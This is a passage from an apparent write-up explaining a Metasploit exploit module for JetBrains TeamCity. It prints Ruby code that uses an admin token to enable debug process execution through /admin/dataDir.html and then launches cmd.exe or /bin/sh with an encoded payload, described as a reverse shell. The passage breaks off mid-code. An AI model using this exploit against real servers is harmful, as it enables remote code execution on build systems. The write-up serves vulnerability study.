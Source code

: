 That function makes a post request to /admin/dataDir.html using the token to modify the config/internal.properties with the content `key=value` that in this case it will be `rest.debug.processes.enable=true`:

```ruby
def modify_internal_properties(token, key, value)
    res = send_request_cgi(
      'method' => 'POST',
      'uri' => normalize_uri('/admin/dataDir.html'),
      'headers' => {
        'Authorization' => "Bearer #{token}"
      },
      'vars_get' => {
        'action' => 'edit',
        'fileName' => 'config/internal.properties',
        'content' => value ? "#{key}=#{value}" : ''
      }
    )

    unless res&.code == 200
      # If we are using an authentication for a non admin user, we cannot modify the internal.properties file. The
      # server will return a 302 redirect if this is the case. Choose a different TEAMCITY_ADMIN_ID and try again.
      if res&.code == 302
        print_warning('This user is not an administrator, try setting the TEAMCITY_ADMIN_ID option to a different ID.')
      end

      return false
    end

    # <..SNIP..>
end
```

After modifying the internal.properties, it finally makes the request to create a process that sends a reverse shell:

```ruby
begin
    print_status('Executing payload...')

    vars_get = {}

    # We need to supply multiple params with the same name, so the TeamCity server (A Java Spring framework) can
    # construct a List<String> sequence for multiple parameters. We can do this be enabling `compare_by_identity`
    # in the Ruby Hash.
    vars_get.compare_by_identity

    case target['Platform']
    when 'win'
        vars_get['exePath'] = 'cmd.exe'
        vars_get['params'] = '/c'
        vars_get['params'] = payload.encoded
    when 'linux'
        vars_get['exePath'] = '/bin/sh'
        vars_get['params'] = '-c'
        vars_get['params'] = payload.encoded
    end

    res = send_request_cgi(
        'method' => 'POST',
```